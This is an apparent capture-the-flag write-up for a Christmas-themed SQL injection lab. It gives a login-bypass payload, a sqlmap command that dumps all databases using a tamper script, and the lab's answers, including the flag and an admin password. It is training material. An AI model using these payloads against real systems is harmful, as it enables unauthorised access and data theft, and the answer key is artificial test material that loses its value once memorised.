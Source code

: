 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2883%29.png)

### Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%2810%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

### Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2850%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2877%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

### How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2822%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2858%29.png)

![](../.gitbook/assets/image%20%2815%29.png)

{% hint style="success" %}
22
{% endhint %}

### What did Paul ask for?

![](../.gitbook/assets/image%20%2828%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

### What is the flag?

![](../.gitbook/assets/image%20%2878%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

### What is admin's password?

![](../.gitbook/assets/image%20%283%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

